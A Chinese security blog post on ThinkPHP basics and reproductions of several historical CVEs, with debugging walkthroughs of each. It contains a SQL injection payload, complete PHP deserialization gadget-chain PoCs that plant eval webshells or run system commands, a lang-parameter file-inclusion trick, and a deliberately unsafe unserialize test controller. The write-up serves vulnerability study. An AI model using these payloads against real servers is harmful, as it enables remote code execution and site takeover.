# thinkphp学习和历史漏洞复现总结-先知社区

> **来源**: https://xz.aliyun.com/news/16533  
> **文章ID**: 16533

---

这个是之前学的,当复习重新看一遍,顺便发到很久没更的博客里，博客地址：<https://jmx0hxq.github.io/>

## 基础知识

### 安装:

```
composer create-project topthink/think=5.0.* tp5  --prefer-dist
```

表示安装最新的5.0版本,这里是5.0.24,这里的`tp5`目录名可以任意更改,如果之前安装过,则切换到tp5应用根目录下,执行:

```
composer update topthink/framework
```

如果很卡:

```
指定国内源
composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/

composer config -g -l
```

此时安装成功会有一个提示`composer audit`可以查看历史漏洞,我们进入`www.tp5.com`目录查看一下发现有7个CVE,后面会一个个分析

### 一些基础

目录结构在readme文件有解释

```
router.php用于php自带webserver支持，可用于快速测试  
启动命令：php -S localhost:8888 router.php
```

开启调试:  
config.php里面的app\_debug参数设置为true,或者项目根目录创建.env文件:

```
app_debug =  true
```

定义了`.env`文件后，配置文件中定义`app_debug`参数无效

关于URL路由访问的规则:

1. 普通模式: 当没有自定义路由或者`url_route_on`参数为false的情况下,采用`PATH_INFO`格式访问,即`http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]`,比如在`app\index\controller`下写一个Test1.php  
   ```php  
   <?php

namespace app\index\controller;

class Test1  
{  
public function test1(){  
return 'this is function test1';  
}  
public function index(){  
return 'this is index!';  
}  
public function dump($id){  
return "hello".$id;  
}  
}

```
我们访问:
```

<http://www.tp5.com:8000/index.php/index/test1/test1> 返回this is function test1  
<http://www.tp5.com:8000/index.php/index/test1/index> 返回this is index!

```
此外: 还有一种兼容模式访问如下
```

<http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值>...]

```
eg
```

<http://www.tp5.com:8000/?s=index/Test1/test1>  
<http://www.tp5.com:8000/?s=index/Test1/index>

```
2. 混合模式(默认)
配置：`'url_route_on'=>true,'url_route_must'=>false`
已注册用路由访问，未注册仍用PATH_INFO访问
3. 强制模式  
配置：`'url_route_on'=>true,'url_route_must'=>true`  
全部访问必须采用路由模式，包括首页’/’

讲了路由访问模式自然要说怎么自定义路由!
路由定义采用`\think\Route`类的`rule`方法注册，通常是在应用的路由配置文件`application/route.php`进行注册，格式是：
```

Route::rule('路由表达式','路由地址','请求类型','路由参数（数组）','变量规则（数组）');

```
eg1
apploication/app/controller/Index.php
```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        return "hello world";
    }
    public function hello($id){
//        echo "hello".$id;
        dump(input());
        dump(request()->get());
        dump(request()->route());
        dump(request()->param());
    }

}
```

application/route.php

```
<?php
use think\Route;  
Route::rule('test','index/Index/index');  
Route::get('hello/:id','index/Index/hello');

```

访问`http://www.tp5.com:8000/index.php/hello/1?name=jmx`

```
array(2) {
  'name' =>
  string(3) "jmx"
  'id' =>
  string(1) "1"
}

D:\phpstudy_pro\WWW\www.tp5.com\thinkphp\library\think\Debug.php:193:
array(1) {
  'name' =>
  string(3) "jmx"
}

D:\phpstudy_pro\WWW\www.tp5.com\thinkphp\library\think\Debug.php:193:
array(1) {
  'id' =>
  string(1) "1"
}

D:\phpstudy_pro\WWW\www.tp5.com\thinkphp\library\think\Debug.php:193:
array(2) {
  'name' =>
  string(3) "jmx"
  'id' =>
  string(1) "1"
}
```

## CVE-2018-16385

### 简历

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

### 范围

ThinkPHP < 5.1.23

### 配置

安装thinkphp5.1.22

```
git clone https://github.com/top-think/think.git
git checkout v5.1.22
修改composer.json的topthink/framework值为5.1.22
composer install
```



测试成功  
在config/database.php配置好数据库连接参数  
数据库创建一个user表,表里创建一个id字段  
config/app.php里的debug模式改为true

修改Index.php:

```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        echo "index";
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }

    public function hello($name = 'ThinkPHP5')
    {
        return 'hello,' . $name;
    }
    public function sql(){
        echo "hello ,this is sql test!";
        $data=array();
        $data['id']=array('eq','test');
        $order=$_GET['order'];
        $m=db('user')->where($data)->order($order)->find();
        dump($m);
    }

}

```

### 分析

find()函数->中间跳了很多->/thinkphp/library/think/db/Builder.php parseOrder()的函数



oreach函数将$order数组分为key和value形式。  
进入parseOrderField()函数



这里重点是foreach循环对`$val`的值做处理,但是这个val的值不用管,最后拼接sql语句是key的值,val在key后面,可以用注释符注释掉  
进入parseDataBind()函数



这里最后返回字符串,对传入的key的前面拼接了字符串:

```
:data__id`,111)|updatexml(1,concat(0x3a,user()),1)#0
```

然后回到parseOrderField()函数

```
return 'field(' . $this->parseKey($query, $key, true) . ',' . implode(',', $val) . ')' . $sort;

```

调用Mysql的 parseKey()函数:



拼接了一对反引号在key变量两头:

```
`id`,111)|updatexml(1,concat(0x3a,user()),1)#`
```

最后返回:

```
field(`id`,111)|updatexml(1,concat(0x3a,user()),1)#`,:data__id`,111)|updatexml(1,concat(0x3a,user()),1)#0)
```

然后回到了Builer.php的parseOrder()函数



```
ORDER BY field(`id`,111)|updatexml(1,concat(0x3a,user()),1)#`,:data__id`,111)|updatexml(1,concat(0x3a,user()),1)#0)
```

一直调试到后面可以看到sql语句:

```
SELECT * FROM `user` WHERE  `id` IN (:where_AND_id_in_1,:where_AND_id_in_2) ORDER BY field(`id`,111)|updatexml(1,concat(0x3a,user()),1)#`,:data__id`,111)|updatexml(1,concat(0x3a,user()),1)#0) LIMIT 1
```



这里由于field函数，漏洞利用有两个关键点:

1. field()函数必须指定大于等于两个字段才可以正常运行，否则就会报错,当表中只有一个字段时，我们可以随意指定一个数字或字符串的参数
2. 当field中的参数不是字符串或数字时，指定的参数必须是正确的表字段，否则程序就会报错。这里由于程序会在第一个字段中加 限制 ,所以必须指定正确的字段名称。第二个字段没有限制，可以指定字符串或数字

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 `vendor\league\flysystem-cached-adapter\src\Storage\Adapter.php`发现一个反序列化漏洞。

### 范围:

thinkphp<6.0.9

### 环境

这里装tp6.0.8

```
composer create-project topthink/think=6.0.x tp6.0.8
```

老规矩删lock文件改comoser.json重新composer install一遍

### 调试

很简单的链子.应该是最短的了  
Poc:

```
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>

```

入口点是`abstract class AbstractCache`中的`__destruct`方法



但是PHP的抽象方法不能被实例化,因此需要实例化它的子类,这里选择的是`League\Flysystem\Cached\Storage`的Adapter.php

然后进入Adapter.php的save()方法:


目标是进入write()方法,里面有file\_put\_contents,这里参数都可以控制  
首先看一下getForStorage()方法,它影响了write函数写入文件的内容content



它会返回一个json加密的数据,这个参数是cache,`protected $cache = [];`我们实例化的时候可控  
进入cleanContents()函数:



我们只需要传入的cache是一个一维数组就不会进入if语句  
然后考虑这个`this->adapter`变量,这里找的是同时具有has()方法和write()方法的类,找到的是`League\Flysystem\Adapter`的Local.php

首先has方法我们需要保证返回false



进入applyPathPrefix()



很简单的字符串拼接,我们传入的$this->file只要是一个不存在的文件就行  
进入write()方法



一样的先调用applyPathPrefix()方法,拼接一下文件路径,这里做的限制是删除路径的`/`字符,tp默认写入文件就是public目录我们不需要设置路径



最后成功写入木马

此外我们看下Y4tacker师傅的poc

```
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "yydsy4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}

```

区别就是初始化的时候赋值的complete变量,因为`$contents = $this->getForStorage();`  
我们跟进getForStorage()方法就可以发现`return json_encode([$cleaned, $this->complete, $this->expire]);`  
我们自然可以只赋值complete变量

## CVE-2021-36567

### 描述

ThinkPHP v6.0.8 已通过组件 `League\Flysystem\Cached\Storage\AbstractCache`包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux系统,因为核心是把system(json加密的数据),类似:

```
[["`whoami`"],[]]
```

这样的结果返回,Windows肯定不会执行成功,Linux可以返回,虽然没有回显但是命令执行函数已经执行了.所以我们可以写木马文件

```
[[jmx],[]]: command not found
```

### Poc

```
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}

```

### 分析

这个链子也非常简单  
`League\Flysystem\Cached\Storage\AbstractCache`的\_\_destruct

```
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}

```

`think\filesystem`的CacheStore.php的save()方法:



getForStorage()方法



调试多了都有经验了,这里设置的cache是一维数组会直接返回cache的值:

```
['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`']
```

最后返回json\_encode函数处理后的结果

```
[["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"],[]]
```

然后进入`$this->store->set`,也就是`think\cache\driver\File`的set()方法:



创建文件目录和文件名后进入serialize方法



这里提前设置了`$this->options['serialize']`为system  
执行

```
system('[["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"],[]]')
```

最后虽然没有返回但是命令也被执行了,成功创建文件



我们自然可以只赋值complete变量,把cache变量设置为空数组也可以

## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12

Poc:

```
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}

```

### 分析

入口点在`think\Model\`的\_\_destruct()方法



进入save()方法



进入insertData()方法



进入checkAllowFields()方法



进入db()方法



执行`$query->table($this->table . $this->suffix);`语句  
此时开始进入链子了,拼接对象和字符串造成toString魔术方法调用,`think\route`的Url.php  
  
  
if语句一直进不去,最后跑到

```
$bind = $this->route->getDomainBind($domain && is_string($domain) ? $domain : null);
```

然后进入getDomainBind()方法,这里设置了domain的值,直接进入了Output.php的\_\_call()方法: `call_user_func_array([$this, 'block'], $args);`

Output.php的block()方法->writeln()方法

```
$this->writeln("<{$style}>{$message}</$style>");

```

Output.php的writeln()方法->write()方法:

```
$this->write($messages, true, $type);

```

此时message为`<getDomainBind><?=+phpinfo();+exit();//</getDomainBind>`  
write()方法

```
$this->handle->write($messages, $newline, $type);
```

`$this->handle`被设置的`League\Flysystem\File`,调用它的write()方法

```
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}

```

`$this->filesystem`被设置的`think\session\driver\File`,调用它的write()方法:





最后执行file\_put\_contents写入木马文件

## CVE-2022-38352

### 影响版本: Thinkphp <= v6.0.13

### 介绍:

攻击者可以通过组件`League\Flysystem\Cached\Storage\Psr6Cache`包含反序列化漏洞,目前的Thinkphp6.1.0以上已经将filesystem移除了 因为此处存在好多条反序列化漏洞

安装和前一篇文章一样,这里为了方便就用上一篇文章的6.0.12了

### poc:

```
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}

```

### 分析

在Index.php添加反序列化点:

```
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}

```

在unserialize打断点,进入调试  
首先是Psr6Cache.php的父类的AbstractCache.php的`__destruct()`方法:

```
public function __destruct()
    {
        if (! $this->autosave) {
            $this->save();
        }
    }

```

这个autosave可控,设置为false进入Psr6Cache.php的save()方法



这里的pool变量也可控,可以调用任意一个对象的`__call`方法,这里我们选择的是`think\log\Channel`对象



然后是调用log()方法,$method就是函数名getItem(这里没啥用),然后调用record()方法



直接走到if语句,这里`$this->lazy`我们可控,直接设置为false就可以进入if语句调用save()方法



走到if语句,我们可以控制logger的值,这里设置为`think\log\driver\Socket()`对象,然后调用`think\log\driver\Socket()::save()`方法



这里先执行check()函数:



我们想要check函数返回true需要设置`config['force_client_ids']`为true,`config['allow_client_ids']`是空  
然后回到save()方法,需要设置`config['debug']`为true,然后if语句判断`if ($this->app->exists('request'))`  
这里我们将`$this->app`设置为`\think\App`,而这个类没有exists方法,会调用父类Container.php的exists()方法


跟进getAlias()方法:



注释告诉我们根据别名获取真实类名,这里是`\think\Request`,调试可以发现`$this->bind`就是`\think\App`的bind变量,里面设置了键request的值为`Request::class`,这里$bind被赋值了`\think\Request`,重新进入getAlias()函数没有进入if语句直接返回了`\think\Request`,而出来后的

```
return isset($this->instances[$abstract])
```

返回为true,因为我们自定义了`\think\App`的instances变量,在Poc里可以发现,为`new Request()`  
然后回到Socket.php的save()方法接着走,调用Request的url方法,这个Request对象也被我们重写了



调用domain方法:



最后返回`http://<?php system('calc'); exit(); ?>`  
$currentUri变量的值为`http://<?php system('calc'); exit(); ?>`  
而后判断`config['format_head']`,执行invoke函数  
这里设置的`config['format_head']`为数组: `[new \think\view\driver\Php,'display']`  
App.php没有invoke方法,调用父类Container.php的:



这里直接会走到invokeMethod方法,$callable是数组`[new \think\view\driver\Php,'display']`$vars`是一维数组:`http://<?php system('calc'); exit(); ?>`



先把$method分开键值对,即`class为\think\view\driver\Php,method为display`,生成reflect反射对象  
最后调用`$reflect->invokeArgs()方法`,走到Php.php的display方法



完成RCE



## CVE-2022-45982

### 范围

ThinkPHP 6.0.0~6.0.13 和 6.1.0~6.1.1

### 调试

入口点是`abstract class Model`的\_\_destruct()方法

```
public function __destruct()
    {
        if ($this->lazySave) {
            $this->save();
        }
    }

```

进入save()方法之后

```
$this->setAttrs($data);
```

直接进入Attribute.php的setAttrs()方法



直接返回没啥用  
在`$result = $this->exists ? $this->updateData() : $this->insertData($sequence);`这里会进入updateData()方法,我们设置了`$this->exists`为true



这里我们需要进入`$this->getChangedData()`方法,因为里面涉及一些数组删除操作使我们能进入下面的if语句



`$data`是我们可控的`$this->data`,我们设置为`['a' => 'b']`  
`$this->readonly`我们设置好为`['a']`  
经过if判断,删掉了`$data`的内容,此时`$data`为空  
回来Model.php正好进入if语句,调用`$this->autoRelationUpdate()`方法



我们可控`($this->relationWrite`的内容,设置为一个二维数组

```
['r' =>  
    ["n" => $value]  
]
value是一个think\route\Url类型的对象
```

调用到`$model = $this->getRelation($name, true);`



我们控制`$this->relation = ['r' => $this];`,`$this`为本Pivot对象  
然后可以进入if语句调用`$model->exists(true)->save($val);`,此时`$val`是被键值对分出的值,一维数组`["n" => $value]`

然后就调用的Model的save()方法,这个危险方法应该很敏感了



此时的`$data`是一个`\think\route\Url`对象了  
进入setAttrs()->Attribute.setAttrs()->`$this->setAttr()`  
目标是拼接字符串,我们需要设置`$this->origin = ["n" => $value];`



去调用`Url.__toString()`方法->build()  
然后走到我们常见的

```
$bind = $this->route->getDomainBind($domain && is_string($domain) ? $domain : null);
```

`$this->route`被设置为`think\log\Channel`对象,调用它的`__call`->log(->record()



我们自定义lazy变量为false进入save()


调用`$this->logger->save`->Store.php的save()



熟悉的serialize()方法



熟悉的RCE  
我们可控Store.php的一些变量

```
protected $serialize = ["call_user_func"];
$this->data = [$data, "param"];
$data是think\Request()实例
```

调用的`call_user_func($this->data)`  
去了Request的param()函数



进入input()函数



先进入getFilter()获取`$this->filter`,用逗号分割开成数组,在加了一个null(`$default`)



然后进入filterValue()方法调用`call_user_func($filter, $value)`



我们自定义的request

```
protected $mergeParam = true;  
protected $param = ["whoami"];  
protected $filter = "system";
```

最终RCE




### Poc

```
<?php

namespace think {
    abstract class Model
    {
        private $lazySave = true;
        private $data = ['a' => 'b'];
        private $exists = true;
        protected $withEvent = false;
        protected $readonly = ['a'];
        protected $relationWrite;
        private $relation;
        private $origin = [];

        public function __construct($value)
        {
            $this->relation = ['r' => $this];
            $this->origin = ["n" => $value];
            $this->relationWrite = ['r' =>
                ["n" => $value]
            ];
        }
    }

    class App
    {
        protected $request;
    }

    class Request
    {
        protected $mergeParam = true;
        protected $param = ["whoami"];
        protected $filter = "system";
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
}

namespace think\route {

    use think\App;

    class Url
    {
        protected $url = "";
        protected $domain = "domain";
        protected $route;
        protected $app;

        public function __construct($route)
        {
            $this->route = $route;
            $this->app = new App();
        }
    }
}

namespace think\log {
    class Channel
    {
        protected $lazy = false;
        protected $logger;
        protected $log = [];

        public function __construct($logger)
        {
            $this->logger = $logger;
        }
    }
}

namespace think\session {
    class Store
    {
        protected $data;
        protected $serialize = ["call_user_func"];
        protected $id = "";

        public function __construct($data)
        {
            $this->data = [$data, "param"];
        }
    }
}

namespace {
    $request = new think\Request();         //  param
    $store = new think\session\Store($request);     // save
    $channel = new think\log\Channel($store);     // __call
    $url = new think\route\Url($channel);   // __toString
    $model = new think\model\Pivot($url);   // __destruct
    echo urlencode(serialize($model));
}

```

## CVE-2022-47945

### 影响范围:

thinkphp<=6.0.13

### 描述

如果 Thinkphp 程序开启了多语言功能，那就可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

### 复现:

#### thinkphp6.0.12

##### 安装

```
composer create-project topthink/think=6.0.12 tp6
```

注意由于composer在安装时一些依赖的更新导致此时的tp6不是6.0.12而是6.1.4,因此我们需要手动修改composer.json的require的内容:

```
"require": {
        "php": ">=7.2.5",
        "topthink/framework": "6.0.12",
        "topthink/think-orm": "^2.0"
    },

```

重新执行composer install即可

##### 调试

这里环境是Windows+phpstorm调试  
phpstorm打开tp6文件夹,添加一个PHP内置Web服务器的运行配置文件



然后修改app/middleware.php的内容,把多语言加载的注释给删了

```
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    \think\middleware\LoadLangPack::class,
    // Session初始化
    // \think\middleware\SessionInit::class
];

```

由于我们调试的是任意文件包含,我们在public目录写一个test.php以便调试

```
<?php
echo "test";

```

跳转`\think\middleware\LoadLangPack`,下断点



url: <http://localhost:1221/public?lang=../../../../../public/test>  
开启调试:  
首先会调用detect函数来依次遍历get,请求头和cookie是否有lang参数,也就是`$this->config['detect_var']`内置变量



先小写一遍赋值给$langSet变量  
而后由于`$this->config['allow_lang_list']`变量默认是空的进入if语句将`$langSet`赋值给`$range`变量,而后调用setLangSet()函数将Lang.php的private属性的$range变量赋值从默认的zh-cn改为../../../../../public/test



然后会比较当前langset变量是否等于默认的"zh-cn",不等于进入if语句,调用`switchLangSet()`函数



然后调用load()函数,参数是个只有一个值的数组,`$this->app->getThinkPath() . 'lang' . DIRECTORY_SEPARATOR . $langset . '.php'`值为`D:\phpstudy_pro\WWW\think\vendor\topthink\framework\src\lang\../../../../../public/test.php`  
这里就是我们的目标文件地址  
进入load()函数:  
参数file就是这个目标文件地址,通过一个foreach循环来调用parse()函数



这个parse函数就是最终sink点,先pathinfo取出后缀名来判断文件类型,然后包含文件



最终成功包含test.php文件



#### thinkphp5.1

#### 安装

```
composer create-project topthink/think=5.1.* tp5
```

默认5.1.41版本

#### 开启多语言

config/app.php的lang\_switch\_on参数改为true

本地没复现成功,`$langSet = $this->range`这一步将langSet值设置为了zh-cn

## 参考

* <https://www.kancloud.cn/manual/thinkphp5/118031>
* [天融信关于ThinkPHP 5.1.x SQL注入漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/185415.html)
* <https://zhuanlan.zhihu.com/p/652094569>
* [v6.0.8 中的 PHP 反序列化漏洞 ·期号 #2561 ·top-think/框架 ·GitHub上](https://github.com/top-think/framework/issues/2561)
* <https://zhuanlan.zhihu.com/p/652094569>
* <https://tttang.com/archive/1865/>
